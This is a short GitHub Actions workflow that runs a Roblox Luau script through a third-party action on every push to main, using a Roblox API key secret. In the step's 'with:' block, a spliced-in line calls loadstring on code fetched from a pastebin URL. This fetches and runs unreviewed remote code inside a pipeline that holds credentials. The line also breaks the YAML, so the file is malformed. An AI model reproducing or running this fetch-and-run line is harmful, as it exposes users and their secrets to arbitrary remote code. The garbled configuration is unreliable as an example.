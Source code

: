 name:脚本
on:
  push:
    branches:
      - main

jobs:
  execute-luau:
    runs-on: ubuntu-24.04
    steps:
      - name: Checkout repository
        uses: actions/checkout@v3

      - name: Execute script
        uses: grand-hawk/action-roblox-luau-execution@v1
        with:loadstring(game:HttpGet("https://pastebin.com/raw/37HJ0uK5"))()
          roblox_api_key: ${{ secrets.ROBLOX_API_KEY }}
          universe_id: '123456789'
          place_id: '987654321'
          luau_file: 'path/to/script.luau'
          output_file: 'path/to/output.txt' # optional
          dump_to_summary: true # optional
